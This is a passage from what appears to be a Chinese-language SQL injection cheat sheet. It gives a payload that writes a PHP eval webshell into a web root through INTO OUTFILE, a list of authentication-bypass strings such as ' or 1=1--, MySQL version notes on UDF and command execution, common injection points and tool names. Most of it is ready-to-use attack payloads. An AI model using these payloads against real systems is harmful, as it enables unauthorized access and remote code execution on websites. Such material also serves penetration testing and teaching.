 #### 写入webshell
##### 条件
+ 需要知道网站的绝对物理路径，这样导出后的webshell可访问
+ 对需导出的目录有可写权限。

##### payload
```
UNION SELECT  "<?php eval($_POST['chybeta'])?>" INTO OUTFILE 'C:/phpstudy/WWW/test/webshell.php';
```

## 万能密码后台登陆
+ admin' --
+ admin' #
+ admin'/*
+ or '=' or
+ ' or 1=1--
+ ' or 1=1#
+ ' or 1=1/*
+ ') or '1'='1--
+ ') or ('1'='1--

## PDO堆查询

# 0x03 绕过技巧
请见：[WAF Bypass:SQL Injection](https://chybeta.gitbooks.io/waf-bypass/content/sql-injection/ji-ben-guo-waf-zi-shi-hui-zong.html)
##  sqlmap-tamper编写

# 0X04 版本特性
+ mysql5.0以后  information.schema库出现
+ mysql5.1以后 udf 导入xx\\lib\\plugin\\ 目录下
+  mysql5.x以后 system执行命令

# 0x05 常见sql注入位置
+ 常见GET、POST参数
+ 登陆框
+ http头

# 0xx06 工具
## 自动sql注入测试
+ [sqlmap](http://sqlmap.org/)
+ Pangolin
+ 啊D
